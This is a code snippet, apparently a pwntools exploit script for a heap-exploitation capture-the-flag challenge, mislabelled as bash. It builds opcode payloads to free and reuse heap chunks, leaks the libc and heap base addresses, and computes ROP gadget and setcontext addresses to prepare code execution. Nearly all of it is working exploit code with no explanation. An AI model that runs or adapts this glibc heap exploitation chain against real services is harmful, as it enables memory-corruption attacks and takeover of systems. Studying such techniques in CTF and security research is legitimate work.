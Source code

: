 ```bash


def show(idx):
    global all_payload
    payload = p8(0x3)
    payload += p8(idx)
    all_payload += payload


def delete(idx):
    global all_payload
    payload = p8(0x2)
    payload += p8(idx)
    all_payload += payload


def edit(idx, buf):
    global all_payload
    payload = p8(0x4)
    payload += p8(idx)
    payload += p16(len(buf))
    payload += str(buf)
    all_payload += payload


def run_opcode():
    global all_payload
    all_payload += p8(5)
    sh.sendafter("Pls input the opcode", all_payload)
    all_payload = ""


# leak libc_base
add(0, 0x410)
add(1, 0x410)
add(2, 0x420)
add(3, 0x410)
delete(2)
add(4, 0x430)
show(2)
run_opcode()

libc_base = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x1f30b0  # main_arena + 1104
log.success("libc_base:\t" + hex(libc_base))
libc.address = libc_base

guard = libc_base + 0x2035f0
pop_rdi_addr = libc_base + 0x2daa2
pop_rsi_addr = libc_base + 0x37c0a
pop_rax_addr = libc_base + 0x446c0
syscall_addr = libc_base + 0x883b6
gadget_addr = libc_base + 0x146020  # mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
setcontext_addr = libc_base + 0x50bc0

# leak heapbase
edit(2, "a" * 0x10)
show(2)
run_opcode()
sh.recvuntil("a" * 0x10)
heap_base = u64(sh.recv(6).ljust(8, '\x00')) - 0x2ae0
log.success("heap_base:\t" + hex(heap_base))

```